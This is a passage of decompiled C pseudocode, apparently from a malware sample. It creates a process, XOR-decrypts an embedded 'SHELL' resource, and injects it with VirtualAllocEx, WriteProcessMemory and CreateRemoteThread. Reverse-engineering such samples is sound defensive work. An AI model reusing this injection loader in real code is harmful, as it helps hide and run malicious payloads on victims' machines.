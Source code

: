 ```c
                         0,
                         0,
                         4u,
                         0,
                         0,
                         &lpStartupInfo,
                         &ProcessInformation);
  if ( (_DWORD)ResourceW )
  {
    phModule = 0;
    LODWORD(ResourceW) = GetModuleHandleExW(4u, (LPCWSTR)sub_7FFED6511000, &phModule);
    if ( (_DWORD)ResourceW )
    {
      ResourceW = FindResourceW(phModule, (LPCWSTR)0x65, L"SHELL");
      v1 = ResourceW;
      if ( ResourceW )
      {
        v2 = SizeofResource(phModule, ResourceW);
        Resource = LoadResource(phModule, v1);
        ResourceW = (HRSRC)LockResource(Resource);
        v4 = ResourceW;
        if ( ResourceW )
        {
          if ( v2 )
          {
            v5 = v2;
            ResourceW = (HRSRC)VirtualAlloc(0, v2, 0x1000u, 0x40u);
            v6 = ResourceW;
            if ( ResourceW )
            {
              sub_7FFED651D400(ResourceW, v4, v2);
              v7 = 0;
              v8 = v6;
              do
              {
                v8 = (HRSRC)((char *)v8 + 1);
                v9 = v7++ & 0xF;
                *((_BYTE *)v8 - 1) ^= aX7qp9zlma2vtej[v9];
              }
              while ( v7 < v2 );
              ResourceW = (HRSRC)VirtualAllocEx(ProcessInformation.hProcess, 0, v2, 0x3000u, 0x40u);
              v10 = (DWORD (__stdcall *)(LPVOID))ResourceW;
              if ( ResourceW )
              {
                NumberOfBytesWritten = 0;
                LODWORD(ResourceW) = WriteProcessMemory(
                                       ProcessInformation.hProcess,
                                       ResourceW,
                                       v6,
                                       v5,
                                       &NumberOfBytesWritten);
                if ( (_DWORD)ResourceW )
                {
                  ResourceW = (HRSRC)CreateRemoteThread(ProcessInformation.hProcess, 0, 0, v10, 0, 0, 0);
                  v11 = ResourceW;
                  if ( ResourceW )
                  {
                    ExitCode = 0;
                    GetExitCodeThread(ResourceW, &ExitCode);
                    CloseHandle(v11);
                    CloseHandle(ProcessInformation.hThread);
```
